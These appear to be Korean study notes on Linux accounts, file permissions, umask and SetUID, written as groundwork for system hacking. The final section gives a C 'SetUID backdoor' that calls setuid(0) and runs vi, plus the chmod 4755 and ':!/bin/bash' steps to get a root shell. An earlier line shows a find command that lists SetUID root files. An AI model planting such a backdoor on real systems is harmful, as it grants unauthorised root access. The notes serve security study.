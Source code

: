 # 1. 리눅스의 계정과 권한
- 로그인
	username과 password로 **인증**을 하고, 그에 따른 **인가**를 받아서 시스템에 접근할 수 있도록 허가를 받는 과정.
- 시스템 해킹
	일반 사용자 권한 이상의 권한을 획득하는 절차
- 리눅스의 계정과 권한 종류 -> root라는 관리자 or 일반 사용자 계정
## 1.1 `/etc/passwd` 파일
- 계정 목록이 저장된 파일
![[Pasted image 20251014230904.png|500]]
1. 사용자 계정
2. 패스워드를 암호화해 `/etc/shadow` 파일에 저장했음을 나타냄
3. UID
4. GID
5. 사용자 이름, can be anything
6. 사용자 홈 디렉터리, root -> `/root` or 일반 사용자 -> `/home` 하위
7. 사용자 셸, default bash
## 1.2 ls -al 명령어 형식
![[Pasted image 20251014231555.png|400]]
1. 파일 속성 및 권한 표기
2. 해당 파일에 링크된 파일의 수
3. 파일 생성자 계정
4. 생성자 계정 그룹
### 1.2.1 파일 속성

| 문자  | 파일 속성             |
| --- | ----------------- |
| d   | 디렉터리 파일           |
| -   | 일반 정규 파일          |
| l   | 링크된 파일            |
| c   | 버퍼에 저장되지 않은 특수 파일 |
| b   | 버퍼링된 특수 파일        |
| s   | 소켓 파일             |
| p   | 파이프 파일            |

### 1.2.2 파일 권한
- 파일 소유자, 그룹, Others 별로 권한이 나뉨. ex) 위 이미지에선 rwx, r-x, r-x로 나뉨.
- r: 4(binary 100)
- w: 2(binary 10)
- x: 1(binary 1)
## 1.3 Umask 
- `umask`는 새로 생성되는 파일이나 디렉터리의 **기본 권한에서 제한할 권한을 지정하는 값**이다.  
- `/etc/profile`이나 `.bashrc`에서 설정된다.
- ex) umask가 `022`이면 파일은 `644`, 디렉터리는 `755` 권한으로 만들어지며, 보통 
## 1.4 파일 권한 수정 명령
- `chmod 777 c.txt` 생성된 파일의 권한 수정
- `chown root c.txt` & `chgrp root c.txt` 파일의 소유자와 그룹 수정
# 2. SetUID
- 실행파일에 붙일 수 있는 특수 권한. 해당 권한이 있는 파일을 실행하면 프로세스의 EUID가 해당 파일 소유자의 UID로 바뀜.
- -> setuid를 사용해서 합법적인 권한 상승을 할 수 있다. 
- 일반적으로 처음 로그인 시, RUID <> EUID RGID <> EGID는 동일.
- 그러나 SetUID 비트가 설정된 프로그램 실행 시 불일치.
## 2.1 `/etc/shadow`
- 암호화된 password는 `/etc/shadow`에 저장됨.
- `/etc/shadow` 권한 -> `000` 따라서 root도 읽기 권한이 없지만, 소유자가 root라서 수정 및 접근은 가능.
- `passwd` 명령 실행 시 -> RUID 500, EUID 0
- `passwd` 명령 종료 시 -> RUID 500, EUID 500
	-> 이것이 SetUID 효과
## 2.2 파일 권한
- `passwd` 명령은 `rws r-x r-x` 권한. 여기서 s가 SetUID를 가리킴.
- SetUID 4000, SetGID 2000
## 2.3 기타
- `find / -user root -perm +4000`: 파일 소유자가 root with SetUID인 파일을 찾는 명령어
# 3. SetUID 백도어
```c
// vibackdoor.
#include <stdio.h>
main() {
	setuid(0);
	setgid(0);
	system("/bin/vi");
}
```
1. 위와 같은 파일을 컴파일 후 `chmod 4755 vibackdoor`로 SetUID 설정.
2. 그리고 파일 실행 후 < esc > `:!/bin/bash` 실행.
- 일반 유저 계정의 셸에서 root 소유의 vi editor 실행. -> SetUID를 통해 EUID(0) -> `setuid(0); setgid(0);` 
- -> root 권한을 가진 셸 획득